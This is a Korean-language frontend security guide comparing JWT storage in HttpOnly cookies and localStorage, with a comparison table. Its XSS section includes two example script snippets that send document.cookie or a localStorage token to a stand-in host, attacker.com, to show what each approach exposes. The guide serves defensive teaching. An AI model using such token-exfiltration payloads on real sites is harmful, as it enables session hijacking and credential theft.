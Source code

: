 # JWT 토큰 저장 방식 & HTTP 클라이언트 비교 분석

## 🎯 Frontend 관점 기술 결정 가이드

### 1️⃣ 토큰 저장 방식: Cookie vs localStorage

#### 📊 비교표

| 항목 | HttpOnly Cookie | localStorage |
|-----|----------------|--------------|
| **XSS 공격 방어** | ✅ 우수 (JS 접근 불가) | ❌ 취약 (JS 접근 가능) |
| **CSRF 공격 방어** | ⚠️ 취약 (자동 전송) | ✅ 안전 (수동 전송) |
| **저장 용량** | 4KB | 5-10MB |
| **서버 부담** | 모든 요청마다 전송 | 필요시에만 전송 |
| **모바일 앱 호환성** | ⚠️ 제한적 | ✅ 우수 |
| **CORS 처리** | ⚠️ 복잡 (credentials) | ✅ 간단 |
| **만료 관리** | ✅ 자동 (Expires) | ❌ 수동 구현 |
| **디버깅** | ⚠️ 어려움 | ✅ 쉬움 |

---

#### 🔐 보안 관점 상세 분석

##### XSS (Cross-Site Scripting) 공격

**HttpOnly Cookie 방식:**
```javascript
// ✅ 프론트엔드에서 토큰에 접근 불가
document.cookie // "auth_token" 항목이 보이지 않음

// 공격자가 XSS 스크립트를 삽입해도 토큰 탈취 불가능
<script>
  fetch('https://attacker.com', {
    method: 'POST',
    body: document.cookie // HttpOnly 쿠키는 전송되지 않음
  });
</script>
```

**localStorage 방식:**
```javascript
// ❌ 프론트엔드에서 토큰에 접근 가능
const token = localStorage.getItem('auth_token');

// 공격자가 XSS 스크립트를 삽입하면 토큰 탈취 가능
<script>
  const stolenToken = localStorage.getItem('auth_token');
  fetch('https://attacker.com', {
    method: 'POST',
    body: JSON.stringify({ token: stolenToken })
  });
</script>
```
